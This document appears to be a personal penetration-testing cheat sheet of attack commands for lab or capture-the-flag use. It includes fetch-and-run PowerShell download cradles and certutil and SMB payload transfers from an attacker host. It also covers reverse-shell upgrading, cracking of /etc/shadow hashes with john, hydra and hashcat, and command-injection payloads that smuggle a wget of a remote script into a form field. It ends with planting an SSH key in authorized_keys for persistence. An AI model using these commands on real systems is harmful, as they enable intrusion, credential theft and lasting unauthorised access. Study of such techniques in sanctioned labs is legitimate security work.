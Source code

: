 ```yaml
---
description: GOTTA STICK TO THE BASICS LAHH
---
```


# Fundamentals

## File Transfer

#### Python HTTP Server

`sudo python3 -m http.server 80`

#### Netcat&#x20;

```
nc -vl [port] > file [receiver]
nc -N [receiver_IP] [receiver_port] < file [sender]
cat [file] | nc [receiver_IP] [receiver_port] - Alternative
```

#### SCP

`scp [-r] <local_path> $user@$ip:/<remote_path> [Upload local to remote]`

`scp [-r] $user@$ip:/<remote_path> <local_path> [Download remote to local]`&#x20;

#### Powershell

{% code fullWidth="true" %}
```
powershell (New-Object System.Net.WebClient).DownloadFile('http://IP/file', 'file')
download = IEX(New-Object Net.WebClient).downloadString('http://IP_ADDRESS/FILE')
Invoke-WebRequest http://domain.tld/script.ps1 -OutFile C:\Windows\Tasks\script.ps1
```
{% endcode %}

#### Certutil

```
certutil -urlcache -f [path_to_file] [file_name]
```

#### SMB

```
sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword
net use \\ATTACKER_IP\share /USER:user s3cureP@ssword
copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe
net use \\ATTACKER_IP\share /del
```

## Upgrading Reverse Shell&#x20;

```
python3 -c 'import pty; pty.spawn("/bin/bash")'

Ctrl-Z
# In Kali
stty raw -echo
stty size
fg

#In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
$stty rows <num> columns <cols>

/usr/bin/script -qc /bin/bash /dev/null

SOCAT
```

## Password Cracking

```
[file_ext]2john
john [--format=lm] --wordlist=/usr/share/wordlists/rockyou.txt [hash.txt]
unshadow /etc/passwd /etc/shadow > output.db

hydra [-L [userlist.txt] -P [passwordlist.txt]]/[-C [combineduserpassfile]] [IP] http[s]-post-form "/[endpoint]:log=^USER^&pwd=^PASS^[rest of POST body if exist]:F=[error message]"
-C uses file in [user:pass] format and reduces the number of combinations and reduces bruteforce time, eg. retrieve username passwords from a db

.\hashcat64.exe -m [mode] hash.txt rockyou.txt -d 1
```

{% embed url="https://github.com/stealthsploit/OneRuleToRuleThemStill" %}

{% embed url="https://kevinovitz.github.io/TryHackMe_Writeups/passwordattacks/passwordattacks/#online-password-attacks" %}

## Looting

```
cat userlist.txt | tr ' ' '\n' | grep . [Replaces all whitespaces between values with newlines]
grep -r password . 2>/dev/null [searches for the value 'password' recursively across all files]
cut -d "delimiter" -f (field number 1,2 etc.) file.txt
```

## Bypass Character Filters

```
${IFS} - Internal Field Separator, default variable in bash

0xdf;{ping,-c,1,10.10.14.23};#
0xdf;ping -c 1 10.10.14.23;#

#Quotes was also not URL encoded
password=%0abash%09-c%09"wget%09http://10.10.16.48/1.sh"&backup=
%0a : \n
%09 : \t
```

## Pivoting & Port Forwarding

{% embed url="https://github.com/twelvesec/port-forwarding" %}

{% embed url="https://www.ivoidwarranties.tech/posts/pentesting-tuts/pivoting/proxychains/" %}

{% embed url="https://theyhack.me/Proxychains-Double-Pivoting/" %}

{% embed url="https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740" %}

## Git

```
https://github.com/arthaud/git-dumper
git status
git diff --cached [file]
git show <hash> [in logs]
git restore [file]
git log
git checkout [hash]
```

### SSH Keys

Every revshell as an actual user -> this is the play

```
KALI
ssh-keygen -t rsa
chmod 700 ~/.ssh; chmod 600 ~/.ssh/id_rsa [kali]

REMOTE
/home/user/.ssh$ echo "[id_rsa.pub value]" > authorized_keys
chmod 700 .ssh; chmod 700 .ssh/authorized_keys
```

